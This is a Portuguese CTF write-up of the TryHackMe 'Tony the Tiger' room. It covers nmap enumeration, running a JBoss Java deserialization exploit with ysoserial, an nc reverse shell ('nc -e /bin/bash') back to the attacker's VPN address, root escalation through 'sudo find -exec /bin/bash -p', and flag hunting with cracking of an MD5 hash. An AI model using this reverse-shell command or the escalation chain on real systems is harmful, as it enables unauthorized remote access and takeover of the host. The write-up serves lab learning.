# _**Tony the Tiger CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
  

  

Obtendo algumas informações, temos:
_Serialização em nível abstrato é o processo de conversão de dados – especificamente "Objetos" em linguagens de Programação Orientada a Objetos (POO), como Java, em formatação de nível inferior conhecida como "fluxo de bytes"_  
_Estes dados podem ser armazenados para uso posterior, como em arquivos, bancos de dados e/ou transmitidos por uma rede_  
_Posteriormente, são convertidos desse "fluxo de bytes" de volta para o "Objeto" de nível superior_  
_Essa conversão final é conhecida como "Desserialização"_  
_Um ataque de "serialização" consiste na injeção e/ou modificação de dados ao longo da fase de "fluxo de bytes"_  
_Quando esses dados são acessados ​​posteriormente pelo aplicativo, códigos maliciosos podem resultar em sérias implicações como ataques de negação de serviço (DoS), vazamento de dados ou ataques muito mais nefastos, como o "rooting"!_  

Realizamos o _download_ do arquivo e tentamos executar para obter _shell_  



Parece que obtemos um erro  
Pesquisando como corrigir, executamos novamente o _exploit_  
Alteramos para **python2** para contornar o erro de _print_ e localização de arquivo
E novamente outro erro  



Após um tempo pesquisando como contornar, não obtive sucesso e deixei esta sala de lado
Após algum tempo, voltei  

O ysoserial usa uma técnica de Reflection interna (Permit.setAccessible()) para modificar acessibilidade de campos privados  
A partir do Java 9, e principalmente no Java 11 ou mais recente, essa API de reflexão que o ysoserial usa ficou quebrada ou restrita  
Pesquisando mais sobre este erro, temos que é necessário alterar o PATH, pois o Java não está encontrando o campo interno AccessibleObject.override, que o ysoserial tenta alterar por reflection  
Siga estes coamndos abaixo para instalar JDK8  
> ```bash
> cd /opt
> sudo wget https://download.java.net/openjdk/jdk8u44/ri/openjdk-8u44-linux-x64.tar.gz
> sudo tar -xvzf openjdk-8u44-linux-x64.tar.gz
> sudo mv java-se-8u44-ri java-8
> export JAVA_HOME=/opt/java-8
> export PATH=$JAVA_HOME/bin:$PATH
> ```

Após realizar as correções, executamos o _exploit_ com:
> ```bash
> python2 exploit.py [ip_address]:8080 "nc -e /bin/bash [vpn_ip_address] [port]" --ysoserial-path /home/void/jboss/ysoserial.jar
> ```
  

  

## _**Escalando privilégios**_
Agora que finalmente conseguimos _shell_, podemos tentar escalar privilégios  
Investigando o principal diretório (/home), temos uma nota do usuário **jboss**  



Parece que sua senha foi alterada  
Vamos tentar realizar um login via SSH  
Sucesso!  



Primeiro, investigamos o arquivo _.bash_history_ devido a uma dica  
Mas está bloqueado  
Outro comando é ```sudo -l``` e temos retorno  



Execução de _/usr/bin/find_ sem a necessidade de senha!  
Podemos escalar privilégios com o comando abaixo
> ```bash
> sudo find / -exec /bin/bash -p \;
> ```


Buscando pelas flags através do comando ```grep -r --text "THM{" .```, não obtive nenhum resultado  
Fiz a busca com ```find / -name "root.txt" 2>/dev/null```  
Temos retorno! Está codificado em base64  
Descodificando, parece que temos algo a mais  
Executando ```hashid```, temos MD5  
Indo até [crakcstation](https://crackstation.net/), obtemos: <mark>zxcvbnm123456789</mark>  
Agora para a primeira flag, ao invés de executar o comando ```grep -r --text "THM{" .``` em _root_, executamos em **cmnatic** e temos resposta da primeira flag!  
